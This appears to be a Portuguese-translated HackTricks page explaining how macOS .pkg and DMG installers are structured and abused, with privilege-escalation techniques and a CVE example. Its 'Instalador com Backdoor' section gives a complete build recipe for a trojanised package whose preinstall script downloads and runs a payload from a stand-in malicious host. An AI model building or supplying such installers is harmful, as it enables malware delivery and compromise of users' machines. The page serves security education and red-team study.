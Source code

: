 # macOS Installers Abuse

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pkg Basic Information

Um **pacote de instalador** do macOS (também conhecido como arquivo `.pkg`) é um formato de arquivo usado pelo macOS para **distribuir software**. Esses arquivos são como uma **caixa que contém tudo o que um software** precisa para ser instalado e executado corretamente.

O arquivo do pacote em si é um arquivo compactado que contém uma **hierarquia de arquivos e diretórios que serão instalados no computador de destino**. Ele também pode incluir **scripts** para realizar tarefas antes e depois da instalação, como configurar arquivos de configuração ou limpar versões antigas do software.

### Hierarchy

<figure><img src="../../../.gitbook/assets/Pasted Graphic.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption></figcaption></figure>

* **Distribuição (xml)**: Personalizações (título, texto de boas-vindas…) e verificações de script/instalação
* **PackageInfo (xml)**: Informações, requisitos de instalação, local de instalação, caminhos para scripts a serem executados
* **Bill of materials (bom)**: Lista de arquivos a serem instalados, atualizados ou removidos com permissões de arquivo
* **Payload (arquivo CPIO comprimido com gzip)**: Arquivos a serem instalados na `install-location` do PackageInfo
* **Scripts (arquivo CPIO comprimido com gzip)**: Scripts de pré e pós-instalação e mais recursos extraídos para um diretório temporário para execução.

### Decompress
```bash
# Tool to directly get the files inside a package
pkgutil —expand "/path/to/package.pkg" "/path/to/out/dir"

# Get the files ina. more manual way
mkdir -p "/path/to/out/dir"
cd "/path/to/out/dir"
xar -xf "/path/to/package.pkg"

# Decompress also the CPIO gzip compressed ones
cat Scripts | gzip -dc | cpio -i
cpio -i < Scripts
```
Para visualizar o conteúdo do instalador sem descompactá-lo manualmente, você também pode usar a ferramenta gratuita [**Suspicious Package**](https://mothersruin.com/software/SuspiciousPackage/).

## Informações Básicas sobre DMG

Arquivos DMG, ou Imagens de Disco da Apple, são um formato de arquivo usado pelo macOS da Apple para imagens de disco. Um arquivo DMG é essencialmente uma **imagem de disco montável** (contém seu próprio sistema de arquivos) que contém dados brutos em bloco, tipicamente comprimidos e às vezes criptografados. Quando você abre um arquivo DMG, o macOS **o monta como se fosse um disco físico**, permitindo que você acesse seu conteúdo.

{% hint style="danger" %}
Observe que instaladores **`.dmg`** suportam **tantos formatos** que, no passado, alguns deles contendo vulnerabilidades foram abusados para obter **execução de código no kernel**.
{% endhint %}

### Hierarquia

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

A hierarquia de um arquivo DMG pode ser diferente com base no conteúdo. No entanto, para DMGs de aplicativos, geralmente segue esta estrutura:

* Nível Superior: Este é a raiz da imagem de disco. Frequentemente contém o aplicativo e possivelmente um link para a pasta Aplicativos.
* Aplicativo (.app): Este é o aplicativo real. No macOS, um aplicativo é tipicamente um pacote que contém muitos arquivos e pastas individuais que compõem o aplicativo.
* Link de Aplicativos: Este é um atalho para a pasta Aplicativos no macOS. O objetivo disso é facilitar a instalação do aplicativo. Você pode arrastar o arquivo .app para este atalho para instalar o app.

## Privesc via abuso de pkg

### Execução de diretórios públicos

Se um script de pré ou pós-instalação estiver, por exemplo, executando de **`/var/tmp/Installerutil`**, um atacante poderia controlar esse script para escalar privilégios sempre que ele for executado. Ou outro exemplo semelhante:

<figure><img src="../../../.gitbook/assets/Pasted Graphic 5.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption><p><a href="https://www.youtube.com/watch?v=kCXhIYtODBg">https://www.youtube.com/watch?v=kCXhIYtODBg</a></p></figcaption></figure>

### AuthorizationExecuteWithPrivileges

Esta é uma [função pública](https://developer.apple.com/documentation/security/1540038-authorizationexecutewithprivileg) que vários instaladores e atualizadores chamarão para **executar algo como root**. Esta função aceita o **caminho** do **arquivo** a ser **executado** como parâmetro, no entanto, se um atacante puder **modificar** este arquivo, ele será capaz de **abusar** de sua execução com root para **escalar privilégios**.
```bash
# Breakpoint in the function to check wich file is loaded
(lldb) b AuthorizationExecuteWithPrivileges
# You could also check FS events to find this missconfig
```
Para mais informações, confira esta palestra: [https://www.youtube.com/watch?v=lTOItyjTTkw](https://www.youtube.com/watch?v=lTOItyjTTkw)

### Execução por montagem

Se um instalador escrever em `/tmp/fixedname/bla/bla`, é possível **criar um mount** sobre `/tmp/fixedname` sem proprietários, para que você possa **modificar qualquer arquivo durante a instalação** para abusar do processo de instalação.

Um exemplo disso é **CVE-2021-26089**, que conseguiu **substituir um script periódico** para obter execução como root. Para mais informações, dê uma olhada na palestra: [**OBTS v4.0: "Mount(ain) of Bugs" - Csaba Fitzl**](https://www.youtube.com/watch?v=jSYPazD4VcE)

## pkg como malware

### Payload Vazio

É possível gerar apenas um **`.pkg`** com **scripts de pré e pós-instalação** sem nenhum payload real, além do malware dentro dos scripts.

### JS no xml de Distribuição

É possível adicionar tags **`<script>`** no arquivo **xml de distribuição** do pacote e esse código será executado e pode **executar comandos** usando **`system.run`**:

<figure><img src="../../../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### Instalador com Backdoor

Instalador malicioso usando um script e código JS dentro do dist.xml
```bash
# Package structure
mkdir -p pkgroot/root/Applications/MyApp
mkdir -p pkgroot/scripts

# Create preinstall scripts
cat > pkgroot/scripts/preinstall <<EOF
#!/bin/bash
echo "Running preinstall script"
curl -o /tmp/payload.sh http://malicious.site/payload.sh
chmod +x /tmp/payload.sh
/tmp/payload.sh
exit 0
EOF

# Build package
pkgbuild --root pkgroot/root --scripts pkgroot/scripts --identifier com.malicious.myapp --version 1.0 myapp.pkg

# Generate the malicious dist.xml
cat > ./dist.xml <<EOF
<?xml version="1.0" encoding="utf-8"?>
<installer-gui-script minSpecVersion="1">
<title>Malicious Installer</title>
<options customize="allow" require-scripts="false"/>
<script>
<![CDATA[
function installationCheck() {
if (system.isSandboxed()) {
my.result.title = "Cannot install in a sandbox.";
my.result.message = "Please run this installer outside of a sandbox.";
return false;
}
return true;
}
function volumeCheck() {
return true;
}
function preflight() {
system.run("/path/to/preinstall");
}
function postflight() {
system.run("/path/to/postinstall");
}
]]>
</script>
<choices-outline>
<line choice="default">
<line choice="myapp"/>
</line>
</choices-outline>
<choice id="myapp" title="MyApp">
<pkg-ref id="com.malicious.myapp"/>
</choice>
<pkg-ref id="com.malicious.myapp" installKBytes="0" auth="root">#myapp.pkg</pkg-ref>
</installer-gui-script>
EOF

# Buil final
productbuild --distribution dist.xml --package-path myapp.pkg final-installer.pkg
```
## Referências

* [**DEF CON 27 - Desempacotando Pkgs Um Olhar Dentro dos Pacotes de Instalador do Macos e Falhas de Segurança Comuns**](https://www.youtube.com/watch?v=iASSG0\_zobQ)
* [**OBTS v4.0: "O Mundo Selvagem dos Instaladores do macOS" - Tony Lambert**](https://www.youtube.com/watch?v=Eow5uNHtmIg)
* [**DEF CON 27 - Desempacotando Pkgs Um Olhar Dentro dos Pacotes de Instalador do MacOS**](https://www.youtube.com/watch?v=kCXhIYtODBg)
* [https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages](https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Treinamento Especialista em Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Treinamento Especialista em Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
